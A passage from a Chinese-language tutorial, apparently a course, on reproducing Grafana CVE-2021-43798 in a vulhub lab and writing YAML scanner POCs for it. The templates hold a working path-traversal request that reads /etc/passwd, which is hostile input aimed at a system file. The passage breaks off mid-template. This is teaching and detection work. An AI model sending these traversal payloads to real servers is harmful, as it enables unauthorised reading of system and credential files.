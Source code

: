 - 现在访问对应IP+端口即可看到Grafana的登录界面

    ![phaseIII-6](../../assets/course/course-p-3-6.png)

### 漏洞复现

从NVD的对于该漏洞的描述部分可以看到对应的exp的网站，或者直接在baidu，bing，github等直接搜索该漏洞编号，也可以找到对应的复现文章。

![phaseIII-7](../../assets/course/course-p-3-7.png)

此处将直接使用vulhub的描述来进行测试

![phaseIII-8](../../assets/course/course-p-3-8.png)

可以看到只要对搭建好的环境进行如下内容的发包，即可看到`etc/passwd`的内容

![phaseIII-9](../../assets/course/course-p-3-9.png)

### 编写POC
通过上述规则，我们可以很容易的转换成一个yaml的poc：
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread-test-1
manual: true
transport: http
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
expression: |
    r0()
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
其中在匹配`/etc/passwd`的时候，我们可以使用正则匹配的方式对读取到的文件进行匹配，也是为了防止某些系统的passwd文件并不是x，而是直接显示真实的加密后的密码的情况。
### 优化POC
#### 优化一
但通过对复现文章仔细的分析会发现，该漏洞的路径`/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd`中，`alertlist`是可以被替换的，如果目标没有安装这个插件，那么将会出现这种情况：

![phaseIII-10](../../assets/course/course-p-3-10.png)

所以这个时候，我们的POC就应该包括多个插件的访问。
通过对该漏洞的[信息收集](https://github.com/jas502n/Grafana-CVE-2021-43798)，我们可以发现，grafana初始安装的插件为40个，也就是说我们可以写40个规则，然后通过‘或’的逻辑对这40个规则进行连接，只要命中其中一个规则，则证明漏洞存在。
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread-test-2
manual: true
transport: http
rules:
    r1:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r2:
        request:
```